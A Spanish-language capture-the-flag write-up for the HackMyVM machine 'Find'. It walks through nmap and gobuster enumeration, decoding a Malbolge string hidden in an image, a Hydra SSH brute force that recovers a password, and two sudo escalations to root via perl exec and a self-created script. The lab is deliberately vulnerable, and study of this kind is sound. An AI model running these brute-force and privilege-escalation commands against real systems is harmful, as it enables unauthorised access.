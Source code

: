 ```yaml
---
layout: post
title: Find
date: 2023-04-07
author: BlackCage
categories: [HackMyVM]
tags: [HMV, Enumeration, Steganography, Brute Force]
---
```


# Find [ Hack My VM ]
![light mode only](/assets/img/imgs/find/logo.jpg){: .light }
![dark mode only](/assets/img/imgs/find/logo_black.png){: .dark }

# Reconocimiento
### NMAP
```
# Nmap 7.93 scan initiated Fri Apr  7 08:43:23 2023 as: nmap -sCV -p22,80 -oN targeted 192.168.1.111
Nmap scan report for 192.168.1.111
Host is up (0.00040s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 6ef79004840dcd1e5d2edab151d9bf57 (RSA)
|   256 395a6638f7649a94ddbcb6fbf8e73f87 (ECDSA)
|_  256 8c26e72662771640fbb5cfa61ce0f69d (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 08:00:27:DB:3A:6B (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Apr  7 08:43:43 2023 -- 1 IP address (1 host up) scanned in 19.68 seconds
```

Vemos que el puerto `22` está abierto y que la versión no es la más actual, por desgracia no nos podemos aprovechar.

### Inspección Manual
![index](/assets/img/imgs/find/index.png)
Vemos que es la página por defecto de **Apache**, por lo que no podemos hacer demasiado. Pasemos al siguiente paso.

### Fuzzing
Para este paso utilizaremos una herramienta llamada **GoBuster**. Dicha herramienta nos servirá para descubrir todo tipo de rutas, documentos, etcétera si le pasamos un diccionario para que vaya iterando.

```
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.111/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/external/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404,503
[+] User Agent:              gobuster/3.5
[+] Extensions:              html,php,txt,jpg
[+] Timeout:                 10s
===============================================================
2023/04/07 10:27:53 Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 10701]
/cat.jpg              (Status: 200) [Size: 35137]
/manual               (Status: 301) [Size: 315] [--> http://192.168.1.111/manual/]
/robots.txt           (Status: 200) [Size: 13]
```

Vemos que nos encontramos con un archivo **JPG** con el nombre de `Cat` y el típico archivo `robots.txt`. Vamos a inspeccionar el fichero `TXT`.

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Find]
└─# curl http://192.168.1.111/robots.txt
find user :)
```

No hay información relevante, nos está diciendo que encontremos al usuario. Pasemos a la imagen encontrada.

Tras hacerle un `strings` a la imagen y bajar hasta el final nos encontramos con esto:

```
>C<;_"!~}|{zyxwvutsrqponmlkjihgfedcba`_^]\[ZYXWVUTSRQPONMLKJ`_dcba`_^]\Uy<XW
VOsrRKPONGk.-,+*)('&%$#"!~}|{zyxwvutsrqponmlkjihgfedcba`_^]\[ZYXWVUTSRQPONML
KJIHGFEDZY^W\[ZYXWPOsSRQPON0Fj-IHAeR
```

A simple vista parece un texto sin sentido, lleno de símbolos al azar, pero no. Tras buscar durante un rato nos encontramos con que este "desorden" es realmente un **lenguaje de programación**.

Para poder compilarlo y extraer su información me fui a una página para ejecutar [MalBolge](https://malbolge.doleczek.pl).

![MalBolge](/assets/img/imgs/find/MalBolge_Output.png)

¡Enhorabuena! Hemos obtenido un nombre de usuario para poder intentar un ataque de **Fuerza Bruta**.

# Movimiento Lateral
### Shell
Para obtener una **Shell** debemos primero encontrar la contraseña del usuario obtenido, para ello utilizaremos **Hydra**.

```
┌──(root㉿kali)-[~/Desktop/VMs/HMV/Find]
└─# hydra -l missyred -P /usr/share/wordlists/rockyou.txt 192.168.1.111 ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-04-07 10:47:53
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.1.111:22/
[22][ssh] host: 192.168.1.111   login: missyred   password: iloveyou
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-04-07 10:47:58
```

¡Estupendo! Tras unos segundos de espera aparecerá en nuestras pantallas la contraseña del usuario **missyred**.

### Subida de privilegios #1
Una vez hayamos entrado a la máquina tenemos que escalar privilegios. Lo primero que hice fue ver la lista de comandos que yo (como **missyred**) tenía en la máquina.

```sh
missyred@find:~$ sudo -l
[sudo] password for missyred: 
Matching Defaults entries for missyred on find:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User missyred may run the following commands on find:
    (kings) /usr/bin/perl
```

Vemos que podemos ejecutar **Perl** como el usuario **Kings**, por suerte **Perl** tiene una opción para ejecutar código desde la terminal, así que nos podemos aprovechar de eso.

```sh
missyred@find:~$ sudo -u kings /usr/bin/perl -e "exec '/bin/bash'"
kings@find:/home/missyred$
```

Tras ese simple comando vemos que automáticamente estamos en la máquina como **Kings**, pero aún necesitamos escalar una vez más para poder tener el **control total** de la máquina. ¡Vamos allá!

### Subida de privilegios #2
Para esta parte repetiremos el paso anterior para ver qué podemos ejecutar como **Kings**:

```sh
kings@find:/home/missyred$ sudo -l
Matching Defaults entries for kings on find:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User kings may run the following commands on find:
    (ALL) NOPASSWD: /opt/boom/boom.sh
```

Vemos que podemos ejecutar un fichero `Shell` como cualquier usuario sin necesidad de contraseña, pero hay un problema, el `script` `boom.sh` no existe.

No pasa nada, nos vamos al directorio `/opt/`{: .filepath} y con `mkdir` creamos una carpeta llamada `boom`. Dentro de dicha carpeta crearemos un fichero `Shell` llamado `boom.sh`.

Dentro del archivo escribiremos una instrucción para que una vez ejecutado el programa como `root` tengamos el **control total**. Antes de ejecutarlo tendremos que darle permisos al fichero.

```sh
kings@find:/opt/boom$ echo "bash" > boom.sh
kings@find:/opt/boom$ chmod +x boom.sh
```

Ahora sí, ya estamos listos para ejecutar el `script` y ganar acceso total a la máquina:

```sh
kings@find:/opt/boom$ sudo ./boom.sh
root@find:/opt/boom#
```

¡Enhorabuena! Hemos conseguido llegar hasta el final y tener acceso como `root` al sistema. ¡Qué fácil!